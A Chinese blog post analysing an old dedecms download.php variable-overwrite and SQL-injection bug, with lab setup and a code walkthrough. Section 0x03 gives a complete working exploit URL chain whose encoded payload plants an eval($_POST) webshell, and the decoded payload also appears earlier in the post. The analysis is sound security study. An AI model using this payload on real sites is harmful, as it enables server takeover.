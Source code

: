 ```yaml
---
layout: post
title: "dedecms download.php漏洞分析及利用"
---
```


该漏洞的EXP有很多文章分享，但是漏洞分析可能由于简单，所以没有人做分享，由于是第一篇文章，所以对环境的搭建也介绍一下 :)
<hr >


#### 0x0. 测试环境初始化

系统为：kali 2017.3

dedecms版本为： 20130425

web服务为： apache2

1.安装php5, php5-mysql,php5-gd,并安装apache2 php5模块

添加新的repo(为了安装php5，默认版本的源中只有php7)

	deb http://old.kali.org/kali sana main non-free contrib
	deb-src http://old.kali.org/kali sana main non-free contrib

	apt-get update

	apt-get install php5 php5-mysql php5-gd libapache2-mod-php5

2.关闭默认的apache2 php7的模块(我们测试的源码在php5版本)

	a2dismod php7.0
	systemctl restart apache2

在/var/www/html/下创建简单的info.php

	<?php phpinfo(); ?>

访问http://server-ip/info.php,检测是否能正常加载php5

3.创建mysql 库和用户权限(默认mysql kali自带)

配置mysql记录sql语句，在`/etc/mysql/mariadb.conf.d/50-server.cnf`

> general_log_file        = /var/log/mysql/mysql.log

> general_log             = 1
> 


	service mysql start
	mysql -uroot -p
	create database dedecms_20130425;
	grant all on dedecms_20130425.* to 'victim'@'127.0.0.1' identified by 'dedecms';
	flush privileges;

在/var/www/thml/下创建conn.php

	<?php
    $con = mysql_connect("127.0.0.1", "victim", "dedecms");
    if (!$con) {
        die('connect error!!!\n');
    }   
    echo "connected successfully\n";
    mysql_close($con);

访问http://server-ip/conn.php, 检测数据库连接

4.配置dedecms源码

最后将对应的dedecms的源码，放置到/var/www/html/dedecms目录下,并设置对应的权限

	chown www-data:www-data -R dedecms-20130425/	# www-data为apache2运行的用户

接着安装dedecms, http://server-ip/dedecms-20130425/install/index.php，检测画面如下

![dedecms]({{ '/images/201801/dedecms_0_1.png' | prepend: site.baseurl }})

gd我们已经安装，可以忽略这个错误，不会影响使用(后台登录可以正确识别出验证码)

![dedecms]({{ '/images/201801/dedecms_0_2.png' | prepend: site.baseurl }})

至此 我们的环境就已经搞定了

#### 0x01 漏洞描述

漏洞大致利用流程为： 先通过`/plus/download.php?open=1&arrs1[]=...&arrs2[]=...`(不展开详细的payload了)实现变量覆盖漏洞(dedecms这里是有防护变量覆盖，只是这次漏洞是由于arrs1和arrs2会在后续被chr函数处理，就是我们看到的一堆assic值)覆盖了全局变量`$_GLOBAL['cfg_dbprefix']`(payload中的arrs1就是代表的GLOBAL变量中的key值，而arrs2代表着是对应的value值)，覆盖后会在后续的`setquery`函数中将我们的payload拼接到SQL语句中，然后通过`/plus/ad_js.php?aid=1&nocache=1`的访问会将我们注入的payload查询输出到一个模板文件中，然后ad_js.php文件使用include包含该模板文件，触发了我们的payload，利用结束。

要实现getshell就需要把arrs2数组中的值直接添加`<?php $fp = @fopen(''x.php'', ''a'');@fwrite($fp, ''<?php eval($_POST[w]) ?>'');@fclose($fp);?>` 相当于`$_GLOBAL['cfg_dbprefix'] = <?php $fp = @fopen(''x.php'', ''a'');@fwrite($fp, ''<?php eval($_POST[w]) ?>'');@fclose($fp);?>`

#### 0x02 漏洞分析

数据流会先通过`download.php`中的`include/common.inc.php`,会通过以下代码检查

![dedecms]({{ '/images/201801/dedecms_2_1.png' | prepend: site.baseurl }})

下图为`_RunMagicQuotes`,在该函数中会递归检查，除了key还有value

![dedecms]({{ '/images/201801/dedecms_2_2.png' | prepend: site.baseurl }})

通过以上代码一般的变量覆盖漏洞利用是失效的，因为无法包含关键字`cfg_`

但是在检查完后的代码中，后续会判断是否引入`dedesql.class.php`文件(这个文件是利用的关键)

![dedecms]({{ '/images/201801/dedecms_2_3.png' | prepend: site.baseurl }})

cfg_mysql_type默认配置为mysqli, 后续判断的mysqli_init(一般都存在)，所以该漏洞触发是比较严苛的。

全局变量都存在`data/config.cache.inc.php`中

![dedecms]({{ '/images/201801/dedecms_2_4.png' | prepend: site.baseurl }})

关键文件`include/dedesql.class.php`文件，漏洞代码

![dedecms]({{ '/images/201801/dedecms_2_5.png' | prepend: site.baseurl }})

全局变量没有过滤arrs1，和arrs2，并且传入的值会被遍历 通过chr函数解析。

此刻可以成功替换`$_GLOBAL['cfg_dbprefix']`值

接着代码流会继续执行download.php中的以下代码

![dedecms]({{ '/images/201801/dedecms_2_6.png' | prepend: site.baseurl }})

会执行函数`ExecuteNoneQuery2`，定义在`include/dedesql.class.php`文件

![dedecms]({{ '/images/201801/dedecms_2_7.png' | prepend: site.baseurl }})

引入漏洞函数`setquery`，定义如下：

![dedecms]({{ '/images/201801/dedecms_2_8.png' | prepend: site.baseurl }})

str_replace函数就是漏洞点，`UPDATE #@__downloads SET downloads = downloads + 1 WHERE hash='$hash'` 这个是要执行的sql语句，通过setquery将`#@__`替换成为我们之前的`$_GLOBAL['cfg_dbprefix']`的值， 最终到数据库的语句就成为以下语句：

	Query UPDATE `dede_myad` SET  normbody='<?php $fp = @fopen(''x.php'', ''a'');@fwrite($fp, ''<?php eval($_POST[w]) ?>'');echo ''fuckdede'';@fclose($fp);?>'  where aid =1 #downloads` SET downloads = downloads + 1 WHERE hash='d41d8cd98f00b204e9800998ecf8427e'

会更新表`dede_myad`中的`normbody`中的值，`aid`为1.

更为关键的一点在利用中，访问`/plus/ad_js.php`,会先查询指定aid的normbody，并写入到模板，最后include触发漏洞。

![dedecms]({{ '/images/201801/dedecms_2_9.png' | prepend: site.baseurl }})

#### 0x03 漏洞利用

利用的2个前提

一个是版本：通过`/data/admin/ver.txt`来确定 我使用的20130425

另外一个： `cfg_mysql_type == "mysqli"`,这个黑盒无法判断

因此利用的话只要版本合适，直接打payload，来检测

<pre>/plus/download.php?open=1&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=109&arrs2[]=121&arrs2[]=97&arrs2[]=100&arrs2[]=96&arrs2[]=32&arrs2[]=83&arrs2[]=69&arrs2[]=84&arrs2[]=32&arrs2[]=32&arrs2[]=110&arrs2[]=111&arrs2[]=114&arrs2[]=109&arrs2[]=98&arrs2[]=111&arrs2[]=100&arrs2[]=121&arrs2[]=61&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=36&arrs2[]=102&arrs2[]=112&arrs2[]=32&arrs2[]=61&arrs2[]=32&arrs2[]=64&arrs2[]=102&arrs2[]=111&arrs2[]=112&arrs2[]=101&arrs2[]=110&arrs2[]=40&arrs2[]=39&arrs2[]=39&arrs2[]=120&arrs2[]=46&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=39&arrs2[]=39&arrs2[]=44&arrs2[]=32&arrs2[]=39&arrs2[]=39&arrs2[]=97&arrs2[]=39&arrs2[]=39&arrs2[]=41&arrs2[]=59&arrs2[]=64&arrs2[]=102&arrs2[]=119&arrs2[]=114&arrs2[]=105&arrs2[]=116&arrs2[]=101&arrs2[]=40&arrs2[]=36&arrs2[]=102&arrs2[]=112&arrs2[]=44&arrs2[]=32&arrs2[]=39&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=101&arrs2[]=118&arrs2[]=97&arrs2[]=108&arrs2[]=40&arrs2[]=36&arrs2[]=95&arrs2[]=80&arrs2[]=79&arrs2[]=83&arrs2[]=84&arrs2[]=91&arrs2[]=119&arrs2[]=93&arrs2[]=41&arrs2[]=32&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=39&arrs2[]=41&arrs2[]=59&arrs2[]=101&arrs2[]=99&arrs2[]=104&arrs2[]=111&arrs2[]=32&arrs2[]=39&arrs2[]=39&arrs2[]=102&arrs2[]=117&arrs2[]=99&arrs2[]=107&arrs2[]=100&arrs2[]=101&arrs2[]=100&arrs2[]=101&arrs2[]=39&arrs2[]=39&arrs2[]=59&arrs2[]=64&arrs2[]=102&arrs2[]=99&arrs2[]=108&arrs2[]=111&arrs2[]=115&arrs2[]=101&arrs2[]=40&arrs2[]=36&arrs2[]=102&arrs2[]=112&arrs2[]=41&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=32&arrs2[]=32&arrs2[]=119&arrs2[]=104&arrs2[]=101&arrs2[]=114&arrs2[]=101&arrs2[]=32&arrs2[]=97&arrs2[]=105&arrs2[]=100&arrs2[]=32&arrs2[]=61&arrs2[]=49&arrs2[]=32&arrs2[]=35
/plus/ad_js.php?aid=1&nocache=1

如果利用成功会在/plus/目录下写入x.php文件。
</pre>

#### 0x04 总结

漏洞利用可以能比较严格,漏洞虽然比较老，而且现在也找不到太多的实战目标， 不过通过了解漏洞的本质，可以让自己对漏洞的判断更加精确，让自己的基础更扎实。
